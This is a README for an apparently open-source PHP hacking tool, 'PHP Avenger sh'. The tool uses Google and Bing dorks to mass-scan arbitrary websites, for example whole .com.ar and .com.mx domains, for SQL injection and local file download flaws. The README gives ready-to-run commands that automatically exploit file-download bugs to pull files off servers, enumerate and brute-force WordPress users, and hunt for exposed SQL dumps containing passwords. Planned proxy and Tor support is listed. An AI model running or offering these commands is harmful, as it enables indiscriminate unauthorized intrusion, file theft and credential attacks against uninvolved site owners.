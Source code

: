# PHP Avenger

> PHP Avenger is a modern collection of open source tools written in PHP with focus in security and hacking.

### Beta

* PHP Avenger sh ( Search Engine )

### Future Implementation


* PHP Avenger bt ( Brute - Force )
* PHP Avenger sca ( State Code Analayse )
* PHP Avenger pwp ( Plugin WordPress )
* PHP Avenger cj ( Component Joomla )

***
#PHP Avenger SH

> Php Avenger sh is a open source tool with an idea **based in a fork inurlbr by Cleiton Pinheiro**. Basically **PHP Avenger sh** is a tool that automates the process of detecting possible vulnerabilities using mass scan and checking if the vulnerability is true or false. Php Avenger uses search engines like google, bing and others through dorks ( advanced search ).

## Installation 

The recommended way to install PHP Avenger is through
[Composer](http://getcomposer.org).

```bash
# Install Composer
curl -sS https://getcomposer.org/installer | php
```

Next, run the Composer command to install the latest beta version of Php Avenger SH:

```bash
php composer.phar create-project aszone/avenger-sh
cd avenger-sh
```
## Basic Usage

> Use the commands bellow to init the process, results will be printed in the monitor and saved in a `.txt` file on folder `results`.

### Get trash search

```bash
php avenger sh --dork="site:com.ar ext:sql password"
```
#### Result of trash search
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem1.png)


### Check Sql Injection
```bash
php avenger sh --dork="site:com.ar inurl:php?id=" --check="sqli"
```
#### Result of Sql Injection
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem2.png)
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem3.png)


### Check Local File Download
```bash
php avenger sh --dork="site:com.ar inurl:download.php?file=" --check="lfd"
```
#### Result of Local File Download
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/06/imagem7.png)

### Check and Exploited Local File Download

> This next command you will check vulnerabilities and extract files of server. The files will save in /results/exploits/lfd/
 
```bash
php avenger sh --dork="site:com.mx inurl:download.php?file=" --check="lfd" --exploit="lfd"
```
#### Result of Extract Files 
![alt tag](http://lenonleite.com.br/wp-content/uploads/2016/11/lfdFiles.png)
#### Video of Extract Files 
[![Video of extract files](https://img.youtube.com/vi/IdrpQ7KQlmU/0.jpg)](https://www.youtube.com/watch?v=IdrpQ7KQlmU)

### Check is Admin Page
```bash
php avenger sh --dork="site:com.ar inurl:admin" --check="isAdmin"
```

### Check is Admin Page and if Admin Page for WordPress get all users and start brute force 
```bash
php avenger sh --dork="site:com inurl:wp-content/uploads" --check="isAdmin" --exploit="btwp"
```

### Help for commands
```bash
php avenger sh 
```

## Details

#### Search Engines
* Google
* GoogleApi
* Bing
* DukeDukeGo
* Yahoo
* Yandex

#### Covered Vulnerabilities
* Sql Injection (SQLI)
* Local File Download (LFD)
* Admin Page
* Remote File Inclusion (RFI)
* Cross-Site-Scripting (XSS)

#### Covered Exploits
* Local File Download (LFD)
* Brute Force for WordPress

#### Covered Vulnerabilities in next versions
* Sensitive Files
    * Dump Files
    * Config Files
    * Open Folders

#### Features under development
* Power Search
* Send E-mail with results
* Naming the `.txt` result file
* Proxys
    * TOR
    * Site of Proxys
    * **Virgin Proxys**
    
## Help and docs
* [Documentation](http://phpavenger.aszone.com.br).
* [Examples](http://phpavenger.aszone.com.br/examples).
* [Videos](http://youtube.com/lenonleite).
* [Steakoverflow](http://phpavenger.aszone.com.br).

